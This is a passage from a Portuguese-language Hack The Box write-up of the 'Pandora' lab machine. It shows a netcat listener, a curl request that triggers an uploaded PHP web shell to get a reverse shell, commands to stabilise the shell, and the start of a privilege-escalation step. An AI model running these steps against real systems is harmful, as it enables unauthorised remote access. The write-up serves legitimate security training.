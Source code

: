 ```bash
# Executar o nc em modo de escuta para receber o shell:
kali@kali: >     nc -lvnp 443

# Em outra consola, executar o ficheiro que "uploadamos" (Eu escolhi chamar o ficheiro de shell.php...)
kali@kali: >     curl http://localhost/pandora_console/images/shell.php
```

### 3.6.1. Estabilizar o Reverse Shell

```bash
script /dev/null -c bash
export TERM=xterm
export SHELL=bash

# Ctrl + Z
stty raw -echo; fg
reset
stty rows 40 columns 170  # Tem corresponder ao vosso ecrã (stty -a numa consola do Kali)
```

# 4. Escalada de privilégio

Agora que somos matt, podemos analisar o tal binário pandora_backup

![tar](Assets/HTB-Linux-Easy-Pandora/tar.png)
